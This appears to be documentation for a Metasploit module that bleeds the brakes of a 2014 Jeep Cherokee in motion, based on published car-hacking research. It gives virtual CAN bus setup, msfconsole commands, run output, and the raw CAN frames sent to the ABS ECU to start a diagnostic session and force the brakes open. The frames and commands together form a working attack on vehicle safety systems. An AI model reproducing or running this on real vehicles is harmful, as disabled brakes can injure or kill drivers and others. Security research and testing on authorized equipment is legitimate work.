 ## Introduction
This module will bleed all the brakes on the 2014 Jeep Cherokee while the car is moving. This has the result that the brakes will 
not work during this time and has significant safety issues, even if it only works if you are driving slowly.

References:
https://ioactive.com/wp-content/uploads/2018/05/IOActive_Remote_Car_Hacking-1.pdf
http://www.illmatics.com/Remote%20Car%20Hacking.pdf

Authors:
Charlie Miller # Original Author and Researcher 
Chris Valasek# Original Author and Researcher
Jay Turla # Metasploit Module

## Verification Steps

Fire up virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

Launch msf:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath testbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi testbus`

## Options

```
Module options (post/hardware/automotive/cherokee_kill_brakes):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CANBUS                    no        CAN Bus to perform scan on, defaults to connected bus
   SESSION                   yes       The session to run this module on.
```

## Scenarios
You can test this module doing a candump wherein the first CAN Frame will start a diagnostic session with the ABS ECU and then bleed all the brakes at maximum which contains one message (InputOutput) but requires multiple CAN messages since the data is too long to fit in a single CAN frame.

```
msf5 auxiliary(client/hwbridge/connect) > run
[*] Running module against 127.0.0.1

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2019-09-11 04:59:40 -0700
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf5 auxiliary(client/hwbridge/connect) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         hwbridge cmd/hardware  automotive   127.0.0.1 -> 127.0.0.1 (127.0.0.1)

msf5 auxiliary(client/hwbridge/connect) > sessions -i 1
[*] Starting interaction with 1...

hwbridge > run post/hardware/automotive/cherokee_kill_brakes CANBUS=vcan0

[*] Starting a diagnostic session with the ABS ECU...
[*] -- Bleeding all the brakes at maximum --
hwbridge > 
```

You can use candump to verify the CAN frames being sent:

```
└─# candump vcan0           
  vcan0  18DA28F1   [8]  02 10 03 00 00 00 00 00
  vcan0  18DA28F1   [8]  10 11 2F 5A BF 03 64 64
  vcan0  18DA28F1   [8]  64 64 64 64 64 64 64 64
  vcan0  18DA28F1   [8]  64 64 64 00 00 00 00 00
```
